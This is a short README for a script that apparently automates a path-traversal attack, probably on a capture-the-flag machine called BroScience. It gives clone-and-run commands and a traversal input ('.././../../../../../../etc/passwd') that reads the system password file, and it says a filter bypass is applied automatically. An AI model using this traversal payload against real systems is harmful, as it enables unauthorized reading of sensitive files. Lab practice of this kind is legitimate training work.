

# BroScience-Script

## How to use it?
```bash
git clone https://github.com/h4ckerlite/BroScience-Script.git
cd BroScience-Script
chmod +x script.sh
./script.sh
```
# Follow the steps below:
## When prompted for the path: type the complete path.

## Enter the path: .././../../../../../../etc/passwd
**NOTE:** Bypass is applied automatically.
